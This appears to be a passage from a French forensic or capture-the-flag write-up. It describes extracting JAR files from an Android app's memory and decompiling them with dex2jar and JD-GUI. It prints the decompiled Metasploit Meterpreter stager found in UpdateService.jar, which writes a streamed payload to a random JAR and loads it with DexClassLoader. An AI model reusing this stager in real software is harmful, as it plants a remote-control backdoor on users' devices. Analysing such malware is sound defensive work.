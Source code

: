 Les questions a et b sont facile à résoudre une fois que l'on a extrait les fichiers de la mémoire :  

/data/data/org.jtb.httpmon/files/UpdateService.jar (1993 octets)  

/data/data/org.jtb.httpmon/files/rathrazdaeizaztaxchj.jar (37661 octets)  

Comment procéder pour lire ces fichiers JAR :  

Une archive JAR est juste une archive zip, on l'ouvre donc avec unzip.  

A l'intérieur on trouve un fichier .dex que l'on peut convertir (à son tour) en .jar via le logiciel [dex2jar](https://github.com/pxb1988/dex2jar).  

Inutile de décompresser le .jar résultant qui contient les .class. On le passe directement au décompilateur [JD](http://jd.benow.ca/) (*JD-GUI*) qui en fait son affaire.  

Ainsi on trouve le code suivant dans *UpdateService.jar* :  

```java
package androidpayload.stage;

import android.content.Context;
import dalvik.system.DexClassLoader;
import java.io.DataInputStream;
import java.io.File;
import java.io.FileOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Constructor;
import java.util.Random;

public class Meterpreter
  implements Stage
{
  private String randomJarName()
  {
    char[] arrayOfChar = "abcdefghijklmnopqrstuvwxyz".toCharArray();
    StringBuilder localStringBuilder = new StringBuilder();
    Random localRandom = new Random();
    int i = 0;
    while (i < 20)
    {
      localStringBuilder.append(arrayOfChar[localRandom.nextInt(arrayOfChar.length)]);
      i += 1;
    }
    return localStringBuilder.toString() + ".jar";
  }

  public void start(DataInputStream paramDataInputStream, OutputStream paramOutputStream, Context paramContext, String[] paramArrayOfString)
    throws Exception
  {
    paramArrayOfString = randomJarName();
    String str = paramContext.getFilesDir().getAbsolutePath();
    byte[] arrayOfByte = new byte[paramDataInputStream.readInt()];
    paramDataInputStream.readFully(arrayOfByte);
    FileOutputStream localFileOutputStream = paramContext.openFileOutput(paramArrayOfString, 0);
    localFileOutputStream.write(arrayOfByte);
    localFileOutputStream.close();
    new DexClassLoader(str + File.separatorChar + paramArrayOfString, str, str, paramContext.getClassLoader()).loadClass("com.metasploit.meterpreter.AndroidMeterpreter").getConstructor(new Class[] { DataInputStream.class, OutputStream.class, Context.class, Boolean.TYPE }).newInstance(new Object[] { paramDataInputStream, paramOutputStream, paramContext, Boolean.valueOf(false) });
  }
}
```
